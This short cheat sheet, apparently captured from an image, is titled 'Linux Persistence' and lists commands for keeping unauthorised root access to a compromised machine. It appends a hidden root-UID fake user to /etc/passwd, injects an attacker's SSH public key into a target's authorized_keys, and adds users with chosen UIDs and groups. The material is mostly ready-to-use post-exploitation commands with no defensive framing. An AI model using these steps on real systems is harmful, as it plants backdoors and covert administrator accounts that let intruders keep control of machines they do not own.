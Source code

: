 # Linux Persistence


1. Add an entry to /etc/passwd manually
openssl passwd YOUR_PW #Generate the password hash
echo "Fakeuser:${HASH}:0:0:root:/root:/bin/bash" >> /etc/passwd
Use this profile to access as root
2. SSH key injection
Use existing ssh key or create one
ssh-keygen to create ssh key
cat id_rsa.pub copy the content then return to the target
echo "PUB_KEY_CONTENT" >> ~/.ssh/authorized_keys




adduser <uname> #Interactive
useradd <uname>
useradd -u <UID> -g <group> <uname>  #UID can be something new than existing, this command is to add a user to a specific group